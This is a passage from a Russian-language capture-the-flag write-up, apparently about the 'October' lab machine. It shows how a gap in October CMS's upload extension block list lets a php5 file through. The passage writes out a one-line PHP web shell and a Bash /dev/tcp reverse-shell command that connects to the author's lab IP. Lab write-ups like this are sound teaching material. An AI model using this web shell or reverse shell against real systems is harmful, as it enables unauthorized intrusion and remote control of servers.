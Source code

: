 [![browser-admin-upload.png](/assets/images/pwn-kingdom/october/browser-admin-upload.png)](/assets/images/pwn-kingdom/october/browser-admin-upload.png)
{:.center-image}

И вот уже я внутри панели управления.

Вопросив searchsploit о существующих [уязвимостях](https://www.exploit-db.com/exploits/41936) October CMS, я нашел способ загрузки веб-шелла — виной был неполный черный список расширений потенциально уязвимых файлов, в котором отсутствовало упоминание об `php5`.

```
==================== source start ========================
106 <?php
107 protected function blockedExtensions()
108 {
109         return [
110                 // redacted
111                 'php',
112                 'php3',
113                 'php4',
114                 'phtml',
115                 // redacted
116         ];
117 }
====================  source end  ========================
```

Также на это намекал уже существующий php5-скрипт в библиотеке. Поэтому я нажал Upload и загрузил самый банальный бэкдор, который смог придумать.

```
root@kali:~# echo '<?php system($_REQUEST["cmd"]); ?>' > backdoor.php5
```

[![browser-admin-backdoor.png](/assets/images/pwn-kingdom/october/browser-admin-backdoor.png)](/assets/images/pwn-kingdom/october/browser-admin-backdoor.png)
{:.center-image}

Теперь я могу инициировать выполнение команд от имени `www-data`, обратившись к загруженному файлу с аргументом `cmd`.

[![browser-admin-rce.png](/assets/images/pwn-kingdom/october/browser-admin-rce.png)](/assets/images/pwn-kingdom/october/browser-admin-rce.png)
{:.center-image}

## Реверс-шелл

Раз у меня есть RCE, ничто не помешает мне получить шелл. Сделаю я это из Burp Suite для наглядности, прописав в качестве пейлоада [реверс-шелл](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) на Bash по TCP (мой IP — `10.10.14.15`, порт — `31337`).

```
bash -c 'bash -i >& /dev/tcp/10.10.14.15/31337 0>&1'
```

[![burp.png](/assets/images/pwn-kingdom/october/burp.png)](/assets/images/pwn-kingdom/october/burp.png)
{:.center-image}


[//]: # (2019-10-08)
